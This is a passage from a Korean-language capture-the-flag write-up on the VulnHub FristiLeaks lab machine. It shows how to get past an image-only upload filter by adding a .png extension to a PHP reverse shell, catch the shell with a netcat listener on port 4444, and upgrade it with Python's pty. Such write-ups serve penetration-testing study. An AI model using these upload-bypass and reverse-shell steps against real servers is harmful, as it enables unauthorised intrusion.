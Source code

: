 이제 변경한 파일을 업로드한다.

![uploadfile](https://github.com/jasperkim425/OSCP/blob/main/VulnHub/FristiLeaks/image/uploadfile.png)

업로드에 실패했다. 업로드하기 위해선 `png`, `jpg`, `gif` 확장자만 업로드를 허용하고 있다고 한다.

그럼 php 파일의 확장자를 변경하여 업로드한다.

![mv](https://github.com/jasperkim425/OSCP/blob/main/VulnHub/FristiLeaks/image/mv.png)

아래와 같이 업로드가 성공되어 /uploads에 저장되었다.

그럼 리버스쉘을 실행시키기 위해 새로운 터미널을 열어 아까 리버스쉘에서 지정한 포트 4444번을 `nc`를 사용하여 리스닝한다.

```
nc -lvnp 4444
```

그리고 업로드한 리버스쉘 파일을 실행시킨다.

```
192.168.159.130/fristi/uploads/php-reverse-shell.php.png
```

아까 리스닝하고 있던 터미널에서 쉘을 얻을 수 있다.

![shell](https://github.com/jasperkim425/OSCP/blob/main/VulnHub/FristiLeaks/image/shell.png)

bash 쉘을 얻기 위해 파이썬 코드를 다음과 같이 입력한다.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
